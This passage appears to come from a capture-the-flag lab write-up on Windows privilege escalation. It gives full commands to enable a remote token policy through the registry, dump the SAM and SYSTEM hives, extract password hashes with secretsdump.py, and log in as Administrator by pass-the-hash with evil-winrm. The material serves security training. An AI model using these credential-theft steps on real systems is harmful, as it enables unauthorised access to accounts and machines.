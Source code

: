 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692395216446/7af6ccdb-ca59-443e-8edc-421e4e2b84f0.png){: .center-image }

Don't worry, we can enable it through the registry.

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692395249613/a6630e89-84b2-4673-9c2a-2595b194fd35.png){: .center-image }

Great, the `Backup Operators` group is now enabled.

```powershell
whoami /groups
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692395279652/42ce9271-e312-408a-a1dc-16e705ba0c98.png){: .center-image }

Now, let's create copies of the `SAM` and `SYSTEM` files and transfer them to our attack box.

```powershell
reg save HKLM\SYSTEM system.bak
```

```powershell
reg save HKLM\SAM sam.bak
```

```powershell
download system.bak
```

```powershell
download sam.bak
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692395343882/a923600c-1a45-463b-ba4d-b2689a930840.png){: .center-image }

From here, we can extract the password hashes using `Impacket's` `secretsdump.py`.

```bash
/opt/impacket-0.9.19/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692398057558/186b3c71-a5cf-4df5-869d-546e80a0fd00.jpeg){: .center-image }

Now, we can log in to the Administrator account using a `pass-the-hash` attack.

```bash
evil-winrm -i 10.10.55.203 -u Administrator -H [REDACTED]
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692398102091/fca88949-eb5a-4942-b09f-b79561f08bd6.jpeg){: .center-image }

Let's navigate to `C:\flags` and retrieve our flag from `flag1.exe`.

### Special Privileges and Security Descriptors
